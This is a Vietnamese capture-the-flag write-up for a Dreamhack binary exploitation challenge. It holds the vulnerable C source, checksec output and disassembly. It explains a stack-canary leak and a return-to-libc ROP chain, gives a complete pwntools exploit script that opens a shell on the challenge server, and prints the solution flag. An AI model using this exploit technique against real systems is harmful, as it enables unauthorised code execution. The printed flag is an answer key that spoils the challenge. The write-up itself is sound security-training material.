

**1. Tìm lỗi**

Ta có file source như sau:

```
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}

```

- chương trình có cho hàm `system` và chuỗi `/bin/sh` -> Tạo shell
- Biến buf được khai báo 0x30 byte nhưng cho phép nhập 0x100 byte cả 2 lần -> Có lỗi `bof`

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Vậy ở bước nhập đầu tiên thì nhập đến `canary` thì in được địa chỉ canary.
- Sau đó dùng gadget kết với với hàm `system` và chuỗi `/bin/sh` để tạo shell.

**3. Khai thác**

```
   0x0000000000400772 <+123>:   lea    rax,[rbp-0x40]
   0x0000000000400776 <+127>:   mov    edx,0x100
   0x000000000040077b <+132>:   mov    rsi,rax
   0x000000000040077e <+135>:   mov    edi,0x0
   0x0000000000400783 <+140>:   call   0x4005f0 <read@plt>
```

Ta thấy biến `buf` cách rbp 0x40 byte nến sẽ cách `canary` 0x40 - 0x8 byte. Và từ đó sẽ leak được địa chỉ canary

```
payload = b'a'*(0x40 - 0x8 + 0x1)
r.sendafter(b'Buf: ', payload)
r.recvuntil(b'a'*(0x40 - 0x8))
canary_fake = u64(r.recv(8))
log.info("canary fake:" + hex(canary_fake))
canary = canary_fake - 0x61
log.info("canary :" + hex(canary))
```

Sử dụng `ROPgadget` kiếm thanh ghi rdi và ret ta có:

```
pop_rdi = 0x0000000000400853
ret = 0x0000000000400285
```

Tiếp theo sử dụng kỹ thuật `ROP` để get shell

```
payload = b'a'*(0x40 - 0x8)
payload += p64(canary)
payload += b'a'*8
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rdi) + p64(next(exe.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(exe.sym['system'])
r.sendafter(b'Buf: ', payload)
```

Ta có script như sau:

```
from pwn import *

exe = ELF('rtl', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 17418)

payload = b'a'*(0x40 - 0x8 + 0x1)
r.sendafter(b'Buf: ', payload)
r.recvuntil(b'a'*(0x40 - 0x8))
canary_fake = u64(r.recv(8))
log.info("canary fake:" + hex(canary_fake))
canary = canary_fake - 0x61
log.info("canary :" + hex(canary))

pop_rdi = 0x0000000000400853
ret = 0x0000000000400285
payload = b'a'*(0x40 - 0x8)
payload += p64(canary)
payload += b'a'*8
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rdi) + p64(next(exe.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(exe.sym['system'])
r.sendafter(b'Buf: ', payload)

r.interactive()
```

**4. Lấy flag**



`Flag: DH{13e0d0ddf0c71c0ac4410687c11e6b00}`